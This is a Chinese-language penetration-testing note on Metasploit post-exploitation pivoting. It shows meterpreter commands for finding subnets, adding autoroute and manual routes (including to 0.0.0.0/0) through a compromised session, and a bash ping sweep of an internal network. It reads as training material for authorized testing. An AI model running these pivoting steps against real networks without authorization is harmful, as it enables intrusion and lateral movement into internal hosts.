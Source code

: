 ```yaml
---
categories: [渗透测试]
tags: metasploit 内网渗透
---
```

# 2023.10.11
参考链接:
1. [内网隧道](https://www.cnblogs.com/0x7e/p/14369551.html)
2. [msf之添加内网路由](https://www.cnblogs.com/0x7e/p/14378746.html)

## 0x01 添加内网路由
在获取到shell后，如果希望继续渗透内网，可以根据以下步骤：

> **_Note:_** 针对metasploit的利用，只要sessions中的route可达，就可以直接进行多层网络渗透，更加方便。但主session掉，均掉！

### 1.1 获取目标内网相关信息
`meterpreter > run get_local_subnets`
![](2023-10-11-09-39-44.png)
> **_Note:_**如果不添加这两个网段路由的话，是探测不到这两个网段其他主机的。

### 1.1 自动添加路由
在获取目标一个sessions 后，可以查看IP段信息并自动添加路由表。

```bash
msf5 exploit(multi/handler) > sessions 1
meterpreter > run get_local_subnets
meterpreter > run autoroute -p
meterpreter > run post/multi/manage/autoroute
meterpreter > run autoroute -p
meterpreter > background
```
### 1.2 手动添加路由
![](2023-10-11-09-35-03.png)

上述是在meterpreter权限中添加，或当知道目标路由表信息时，可直接添加。
```bash
#在全局给指定的session增删路由

msf5 exploit(multi/handler) > route add 192.168.11.0  255.255.255.0  1     #在session1中添加到达192.168.11.0网段的路由
msf5 exploit(multi/handler) > route add 192.168.12.0  255.255.255.0  1     #在session1中添加到达192.168.12.0网段的路由
msf5 exploit(multi/handler) > route add 0.0.0.0       0.0.0.0        1     #在session1中添加到达0.0.0.0/24网段的路由
msf5 exploit(multi/handler) > route del 192.168.12.0  255.255.255.0  2     #在session2中删除到达192.168.12.0网段的路由
msf5 exploit(multi/handler) > route print    #打印路由信息


#也可以在进入session后添加路由
run autoroute -s 192.168.11.0/24             #添加到达192.168.11.0网段的路由
run autoroute -s 192.168.12.0/24             #添加到达192.168.12.0网段的路由
run autoroute -s 0.0.0.0/0                   #添加到达0.0.0.0/0的路由

run autoroute -p                             #打印路由信息
```
![](2023-10-11-09-44-16.png)
现在即可可在metasploit继续渗透，或开启一个socks，挂载其他工具上多层穿透。

> **_Note:_** 以下是添加路由前后探测的对比信息
> ![](2023-10-11-09-44-49.png)
> ![](2023-10-11-09-44-55.png)

> **_Note:_**在实际的内网渗透中，我们可以直接添加到 0.0.0.0/0 的路由。这样，只要该被控主机可达的地址就都可达！
## 0x02 内网扫描
### 2.1 探测主机存活
```bash
for k in $( seq 1 255);do ping -c 1 10.0.1.$k|grep "ttl"|awk -F "[ :]+" '{print $4}'; done

```